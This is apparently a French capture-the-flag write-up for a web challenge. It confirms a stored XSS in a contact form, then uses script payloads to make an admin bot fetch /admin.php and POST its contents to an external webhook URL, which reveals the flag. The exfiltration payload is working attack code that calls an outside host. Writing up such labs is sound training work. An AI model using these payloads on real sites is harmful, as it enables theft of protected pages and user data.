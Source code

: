 Solution:

Sur le site on nous dit qu'on ne peut pas accéder à /admin.php

On a aussi un formulaire de contact et des commentaires.
On pense naturellement à une XSS
On teste donc si la XSS est avérée:

<script>alert(1);</script>

La page refresh au bout de 5 secondes, et bingo le script s'est exécuté.

On regarde maintenant si un robot lit les messages que l'on envoie:

<script>
    document.write('<img src="http://requestbin.net/r/yvnpmcyv"/>')
</script>

On reçoit une requête du robot comme prévu:

Nous allons maintenant récupérer la page admin.php grâce au robot.

<script>
    //on récupère la page
    var xhr = new XMLHttpRequest();
    xhr.open('GET', '/admin.php', false);
    xhr.send();

    var page = xhr.responseText;

    //et on envoie le contenu de la page dans un post
    xhr.open('POST', 'https://webhook.site/3c38f9b5-9979-485e-8999-ff4174c5b87f', false);
    xhr.send(page);
</script>

Et on reçoit le flag sur webhook :)

Hero{b3_c4r3ful_w1th_xss_!!}
